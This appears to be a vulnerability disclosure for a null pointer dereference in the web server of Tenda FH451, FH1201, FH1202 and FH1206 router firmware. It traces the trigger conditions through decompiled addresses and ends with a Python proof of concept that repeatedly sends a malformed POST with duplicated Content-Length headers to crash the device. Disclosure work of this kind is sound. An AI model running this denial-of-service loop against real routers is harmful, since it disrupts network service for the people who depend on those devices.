

# Overview

| Firmware Name | Firmware Version  | Download Link                                                                                                   |
|---------------|-------------------|-----------------------------------------------------------------------------------------------------------------|
| FH451         | V1.0.0.9          | https://www.tenda.com.cn/download/detail-1629.html                                                              |
| FH451         | V1.0.0.7          | https://www.tenda.com.cn/download/detail-1594.html                                                              |
| FH451         | V1.0.0.5          | https://www.tenda.com.cn/download/detail-1375.html                                                              |
| FH1201        | V1.2.0.14(408)_EN | https://www.tendacn.com/download/detail-3322.html                                                               |
| FH1201        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1201-Router-Firmware-1208-8155.shtml |
| FH1202        | V1.2.0.14(408)    | https://www.tenda.com.cn/download/detail-2079.html                                                              |
| FH1202        | V1.2.0.14(408)_EN | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1202-Router-Firmware-12014408.shtml  |
| FH1202        | V1.2.0.9          | https://www.tenda.com.cn/download/detail-1810.html                                                              |
| FH1206        | V1.2.0.8(8155)    | https://drivers.softpedia.com/get/Router-Switch-Access-Point/Tenda/Tenda-FH1206-Router-Firmware-1208-8155.shtml |

# Vulnerability details
A null pointer dereference in the `websReadEvent` function, where the `strlen` function is invoked with a null pointer in Tenda FH1201 V1.2.0.8(8155) , allows remote attackers to cause the backend system denial of service via sending a specific packet.

## 1. Vulnerability Trigger Location
The following vulnerability analysis and explanation are based on the `FH1201` router, with firmware version `V1.2.0.8(8155)`. The vulnerability trigger and analysis methods for other models are similar.

The vulnerability trigger location is at the `strlen` function call under the `websReadEvent` function, at address 0x430858. For easier analysis, I referred to the GoAhead 2.5 source code from https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names in Ghidra accordingly.


## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `4237ac` to get the index of the `?`. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`.   

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xe4(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value..
    
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xec = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `text` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*text = 0`. The corresponding assembly location is at `0x419f5c`.

- Due to conditions such as nbytes = 0 being met, wp->state = 8 is finally set in the websGetInput function at address 0x431264.

- At address `0x430648` in the websReadEvent function, the value of `local_18` is obtained as `wp->state`, which is 8.

- As a result, in the `websReadEvent` function, because `local_18 = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.


# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
## 1. FH451 V1.0.0.9          


## 2. FH451 V1.0.0.7 
         

## 3. FH451 V1.0.0.5 
         

## 4. FH1201 V1.2.0.14(408)_EN 


## 5. FH1201 V1.2.0.8(8155)    


## 6. FH1202 V1.2.0.14(408)    


## 7. FH1202 V1.2.0.14(408)_EN 


## 8. FH1202 V1.2.0.9          


## 9. FH1206 V1.2.0.8(8155)     


# Discoverer

The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.
